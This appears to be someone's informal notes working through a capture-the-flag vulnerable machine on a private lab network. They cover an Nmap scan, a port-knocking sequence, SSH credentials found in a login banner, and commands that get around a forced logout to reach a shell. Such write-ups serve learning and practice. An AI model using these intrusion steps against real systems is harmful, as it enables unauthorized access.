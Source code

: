 [-] Scanning 192.168.1.70 with Nmap, this could take a minute...go get some coffee

#### Time for bed more tomorrow

Cheated to /iamcornholio - got base encoded message

knock on ports in sequence
* 8888
* 9999
* 7777
* 6666

nmap again - and now port 22 is open! we can attempt ssh

ssh welcome message has the username/password in it
	############################################
	# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
	# USERNAME: butthead #
	# PASSWORD: nachosrule #
	############################################

except it boots you right away

	Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.13.0-46-generic i686)

	 Documentation:  https://help.ubuntu.com/
	Last login: Thu Aug 13 09:57:36 2015 from 192.168.1.73
	You are only logging in for a split second! What do you do!
	Connection to 192.168.1.70 closed.

so you add your command to the end of the ssh command

`ssh butthead@192.168.1.70 ls -la`

	total 28
	drwxr-xr-x 3 butthead butthead 4096 Aug 13 10:05 .
	drwxr-xr-x 4 root     root     4096 Mar  3 00:30 ..
	-rw-r--r-- 1 butthead butthead  220 Apr  8  2014 .bash_logout
	-rw-r--r-- 1 butthead butthead 3654 Aug 13 10:05 .bashrc
	drwx------ 2 butthead butthead 4096 Mar  3 00:31 .cache
	-rw-rw-r-- 1 butthead butthead   67 Mar  3 00:33 nachos
	-rw-r--r-- 1 butthead butthead  747 Mar  3 01:02 .profile

look at the .bashrc and .profile files, remove the part that logs you out

`ssh butthead@192.168.1.70 sed -i -e "/'pkill -Kill -u butthead'/d" ./.bashrc`
`ssh butthead@192.168.1.70 sed -i -e "/'logout'/d" ./.bashrc`

Didn't work. Try soemthing simpler...

`ssh butthead@192.168.1.70 bash`

and we're in!
